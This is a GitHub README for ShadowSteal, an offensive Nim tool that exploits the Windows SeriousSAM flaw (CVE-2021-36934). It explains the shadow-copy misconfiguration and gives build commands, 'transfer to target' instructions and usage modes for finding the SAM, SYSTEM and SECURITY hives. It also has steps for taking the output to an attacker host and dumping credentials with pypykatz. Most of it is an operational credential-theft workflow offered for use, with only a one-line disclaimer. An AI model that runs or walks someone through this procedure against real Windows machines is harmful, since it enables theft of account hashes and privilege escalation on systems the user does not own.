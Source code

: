 # ShadowSteal | CVE-2021-36934
Pure Nim implementation for exploiting CVE-2021-36934, the SeriousSAM Local Privilege Escalation (LPE). Not OPSEC safe.... yet ;). I do not claim credit for the discovery of this exploit.

## Quick Start

Getting started with ShadowSteal is now easier than ever thanks to Docker! Don't wanna mess with installing Nim dependencies? I got you, fam! Run the Python script to create the Docker build environment, compile the binary, transfer it back to your host, and then kill the container.

Install Docker on your host (look up the documentation for how to install for different OS), then run the ShadowSteal Python script in the main dir:
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ sudo python3 ShadowSteal.py && cd bin/ && ls -l
```

Or, build from source by installing Nim and its dependencies:

```
$ sudo apt-get install nim
```
```
$ nimble install zippy argparse winim
```

Install the MinGW tool chain if it's not already installed.
```
$ sudo apt-get install mingw-w64
```
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ make && cd bin/ && ls -l
```
Transfer to target...
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
```

## Summary
Due to some oversight by Microsoft, regular users have read permissions over the contents of the ...\System32\config\ folder in recent Windows builds. Among other things, this means that a low level user has read access to the SAM, System, and Security files in ...\System32\config.

![1.png](img/1.png)

Ooof. So what can we do with this?

Some very observant researchers (shout out [@jonasLyk](https://twitter.com/jonasLyk)!) noticed that if a Windows host has been using a specific system restore configuration, "Volume Shadow Copies", then the host stores backup copies of these files that are accessible via the Win32 device namespace for these copies.

![2.png](img/2.png)

![3.png](img/3.png)

The SAM is normally locked during the host's operation, so accessing the SAM in ...\System32\config\ is out of the question. But these shadow volume copies are fair game for any user on the host due to this misconfiguration. Very nice!

## ShadowSteal

ShadowSteal is a binary written in Nim to automate the enumeration and exfiltration of the SAM, System, and Security files from these shadow copies. It iterates through the possible locations of the shadow copies and, when it has found a target, it extracts the files to a zipped directory (think Bloodhound output).

![4.png](img/4.png)

## Features:
- Triage and Bruteforce mode, for thorough or rapid enumeration.
- Automated extraction and rollup of target credentials.
- Jeff Beezy mode. (wait, what?)
- Integrated Docker build environment for easy complation!
- Will enumerate all available HarddiskShadowCopy locations, pick the highest number dynamically, and target those for exploitation/extraction.

![6.png](img/6.png)

It's nothing earth shattering and the code is hacky, but it works and it was a fun build!

## Installing from Source

Install Nim:

```
$ sudo apt-get install nim
````
Install dependencies:
```
$ nimble install zippy argparse winim
```
Install the MinGW tool chain if it's not already installed:
```
$ sudo apt-get install mingw-w64
```

Compile for 64-bit Windows:
```
$ make
```

Transfer to target and run it!
## Usage

```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
[*] ShadowSteal! Identifies and extracts credentials that can be stolen due to the SeriousSAM (CVE-2021-36934) exploit. Searches from high to low, defaults searching 100 to 1.

Usage:
   [options]

Options:
  -h, --help
  -t, --triage               [*] Triage mode. Quick enumeration, tries to find quick wins.
  -bf, --bruteforce          [*] Bruteforce mode. Enumerates the entire range of possible locations (512 to 1). Takes a bit.
  -b, --bezos                [?] Jeff Bezos Mode
```

## Triage mode
Limits location bruteforce to 10 to 1, decrementing with each attempt. Speedy and effective in most environments.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -t
```

## Bruteforce mode
Searches all possible locations (512), decrementing down to 1. Try this to thoroughly enumerate the environment. Takes a few minutes.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -bf
```

## Parsing Output

Transfer the output directory back to your attacker host and carve the data with Pypykatz. To install:
```
$ pip3 install pypykatz
```
To run Pypykatz:
```
$ pypykatz registry [yyyyMMddhhmm_SYSTEM] --sam [yyyyMMddhhmm_SAM] --security [yyyyMMddhhmm_SECURITY]
```
![5.png](img/5.png)

## Release History

### v.04.01 | the Docktastic update
Now features an easy pre-packaged Docker build environment! Just run the ShadowSteal.py script to set up the Docker environment, compile the binay, transfer it back out to your host, and kill the build containers. It just works! (Some assembly requied, i.e. you need Docker to run it).

###  v.03.69 | the N I C E update
Lean and mean. Optimized compile options added. HUGE performance increase due to compiler optimization, full bruteforce now takes place almost instantly. Huge thanks to @orbitalgun for the pseudo PR, glory be to your house and name!

### v.02 THE JEFF BEEZY UPDATE
- Bruteforce and Triage mode
- A better search algo
- Code cleanup
- Jeff Beezy Mode
- Lots of lessons learned from the first release!

### v.01 THE LAUNCHPAD RELEASE
Stap in boiz, this trainwreck is a-rollin. This release was my rapid prototype and it was pretty terrible lol. Lots of fun to build though!
Features:
- "Working" code

## References

- Original disclose of this CVE by by [@jonasLyk](https://twitter.com/jonasLyk).
- [CVE Reference page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- Lyric credit: Bezos I by Bo Burnham. All Rights Reserved.

## Disclaimer

- For legal, ethical use only.


![7.png](img/7.png)
